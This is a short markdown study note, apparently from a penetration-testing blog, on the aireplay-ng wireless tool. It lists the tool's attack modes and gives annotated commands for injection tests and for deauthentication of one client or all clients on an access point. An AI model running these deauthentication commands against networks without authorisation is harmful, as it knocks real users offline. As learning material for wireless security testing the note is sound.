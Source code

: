 ```yaml
---
description: >-
  Aireplay-ng
title:  Aireplay-ng        # Add title here
date: 2023-09-26 08:00:00 -0600                           # Change the date to match completion date
categories: [18 Wireless, Aircrack Suite]                     # Change Templates to Writeup
tags: [wireless, aireplay-ng]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Aireplay-ng 

Aireplay-ng is primarily useful for generating wireless traffic.

Aireplay-ng supports the following attacks. They are listed along with the corresponding number from the tool's documentation.


|ATTACK |	ATTACK NAME |
|--------|-------|
| 0	| Deauthentication |
| 1	| Fake Authentication |
| 2	| Interactive Packet Replay |
| 3	| ARP Request Replay Attack |
| 4	| KoreK ChopChop Attack |
| 5	| Fragmentation Attack |
| 6	| Café-Latte Attack |
| 7	| Client-Oriented Fragmentation Attack |
| 8	| WPA Migration Mode Attack |
| 9	| Injection Test |


```bash
# check if we can inject in visible APs. The injection test measures ping response times to the AP
sudo aireplay-ng -9 wlan0mon 

# check if we can inject in a specific AP
sudo aireplay-ng -e <ap_name> -a <MAC> wlan0mon

# deauth a client (1000000 is a large number of packets, to keep the deauth attack working for a while):
sudo aireplay-ng --deauth 4 -a <bssid> -c <client_MAC> wlan0mon

# To background the command and don't see output
sudo aireplay-ng --deauth 4 -a <bssid> -c <client_MAC> wlan0mon &> /dev/null &

# with "jobs" we can see the jobs backgrounded with &. each has an ID
jobs

# kill all backgrounded aireplay processes.
killall aireplay-ng 

# kill only the first process in the "jobs" list:
kill %1

# To deauth every client connected to a BSSID don't specify a client <MAC>
aireplay-ng --deauth 4 -a <bssid> wlan0mon &> /dev/null &

# Same as above, but without expecting to receive probes
sudo aireplay-ng -e <ap_name> -a <MAC> -D wlan0mon

# if we have two wifi cards, wlan0mon and wlan1mon, card-to-card test, to make sure they can inject. if it says (5/7 error, still can be used to attack an AP)
sudo aireplay-ng -9 -i wlan1mon wlan0mon

```
